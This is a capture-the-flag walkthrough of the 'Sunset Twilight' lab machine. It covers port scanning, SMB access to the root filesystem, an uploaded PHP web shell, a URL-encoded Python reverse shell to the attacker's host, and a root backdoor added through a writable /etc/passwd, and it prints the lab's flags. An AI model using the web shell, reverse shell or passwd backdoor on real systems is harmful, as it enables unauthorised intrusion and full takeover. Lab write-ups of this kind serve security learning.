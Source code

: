 ```yaml
---
categories: [proving-ground-play,sunset]
tags: [proving-ground,walkthrough,pentest,sunset]
---
```


Lets check the IP address ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled.png)

```bash
IP : 10.0.2.45
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Twilight]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.45
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 13:40 IST
Nmap scan report for 10.0.2.45
Host is up (0.0025s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 43e945ecf45bede96447434339969dc9 (RSA)
|   256 ed67ad310417efcf750205db889497a0 (ECDSA)
|_  256 ed41e5d1b2232cd590592a378bda31c1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: twilight Hello nmap.scanme.org [10.0.2.27], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.45:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root           35 Jul 16  2020 22253251-65325.twilight
3306/tcp  open  mysql       MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 39
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolOld, Support41Auth, ConnectWithDatabase, SupportsTransactions, FoundRows, InteractiveClient, IgnoreSpaceBeforeParenthesis, LongColumnFlag, SupportsCompression, SupportsLoadDataLocal, Speaks41ProtocolNew, ODBCClient, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 9}/mZY0%fSOod%,L{G1]
|_  Auth Plugin Name: mysql_native_password
8080/tcp  open  http        PHP cli server 5.5 or later
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Login - powered by Easy File Sharing Web Server
63525/tcp open  http        PHP cli server 5.5 or later
|_http-title: Login - powered by Easy File Sharing Web Server
MAC Address: 08:00:27:54:08:C8 (Oracle VirtualBox virtual NIC)
Service Info: Host: twilight; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%201.png)

Now I also found smb services lets enumerate it also →

## SMB Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%202.png)

Now I have a directory to Recon further `WRKSHARE` Lets try for smb shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Twilight]
└─$ smbclient -N //10.0.2.45/WRKSHARE/
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 04:27:09 2020
  ..                                  D        0  Thu Jul  9 04:27:09 2020
  root                                D        0  Thu Jul 16 19:20:46 2020
  run                                 D        0  Thu May  4 13:40:22 2023
  lost+found                          D        0  Thu Jul  9 03:38:46 2020
  initrd.img                          N 25814661  Thu Jul  9 04:28:16 2020
  etc                                 D        0  Thu May  4 13:40:13 2023
  proc                                D        0  Thu May  4 13:40:17 2023
  vmlinuz                             N  5274864  Sun Jun  7 21:12:22 2020
  initrd.img.old                      N 25807574  Thu Jul  9 04:28:02 2020
  opt                                 D        0  Thu Jul  9 03:39:01 2020
  srv                                 D        0  Thu Jul  9 03:39:01 2020
  sys                                 D        0  Thu May  4 13:40:05 2023
  lib64                               D        0  Thu Jul  9 03:39:08 2020
  sbin                                D        0  Thu Jul 16 19:23:39 2020
  media                               D        0  Thu Jul  9 03:38:46 2020
  bin                                 D        0  Thu Jul 16 17:52:20 2020
  usr                                 D        0  Thu Jul  9 03:39:01 2020
  lib32                               D        0  Thu Jul  9 03:38:56 2020
  dev                                 D        0  Thu May  4 13:40:11 2023
  lib                                 D        0  Thu Jul  9 07:50:29 2020
  vmlinuz.old                         N  5274864  Mon Apr 27 10:35:39 2020
  libx32                              D        0  Thu Jul  9 03:38:56 2020
  home                                D        0  Thu Jul  9 04:45:56 2020
  mnt                                 D        0  Thu Jul  9 03:39:01 2020
  var                                 D        0  Thu Jul  9 05:33:27 2020
  boot                                D        0  Thu Jul  9 04:36:53 2020
  tmp                                 D        0  Thu May  4 13:40:22 2023

		7158264 blocks of size 1024. 4369328 blocks available
```

I got whole root directory of victim machine so It good for me lets upload a reverse shell in `/var/www/html/` location →

```bash
smb: \var\www\html\> put cmd.php
putting file cmd.php as \var\www\html\cmd.php (4.3 kb/s) (average 119.6 kb/s)
```

cmd.php content →

```bash
<?php
system($_GET['cmd']);
?>
```

In response to that I got this →

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%203.png)

So lets run our python payload for reverse shell →

```bash
http://10.0.2.45/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.27%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%204.png)

Now I tried finding SUIDs and GUISs but no luck then I got this →

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%205.png)

Now I can add a user in this file and run as root →

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

![Untitled](/Vulnhub-Files/img/Sunset-Twilight/Untitled%206.png)

```bash
www-data@twilight:/$ su shiv
Password: 
root@twilight:/# whoami
root
root@twilight:/#
root@twilight:/# cd /root
root@twilight:~# ls
root.txt
root@twilight:~# cat root.txt
(\ 
\'\ 
 \'\     __________  
 / '|   ()_________)
 \ '/    \ ~~~~~~~~ \
   \       \ ~~~~~~   \
   ==).      \__________\
  (__)       ()__________)

34d3ecb1bbd092bcb87954cee55d88d3

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
root@twilight:~#
```

Now I am the boss root —> lets see the user.txt file now ➡️

```bash
root@twilight:/home/miguel# cat user.txt 
6b963e69f7b4a6205513973e4cace702
root@twilight:/home/miguel#
```